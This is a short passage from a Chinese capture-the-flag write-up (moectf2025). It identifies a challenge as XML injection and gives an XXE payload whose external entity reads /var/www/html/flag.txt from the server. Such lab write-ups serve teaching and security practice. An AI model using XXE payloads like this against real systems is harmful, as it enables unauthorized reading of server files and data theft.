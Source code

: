 ![image.png](./moectf2025wp/image_9.png)

根据输出内容，猜测本题考察**XML注入（关于XML注入，参考：**[www.cnblogs.com/backlion/p/9302528.html](http://www.cnblogs.com/backlion/p/9302528.html)）在DTD里构造外部引用实体可得 Flag

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE Anything [
<!ENTITY file SYSTEM "file:///var/www/html/flag.txt">
]>
<输出>&file;</输出>
```
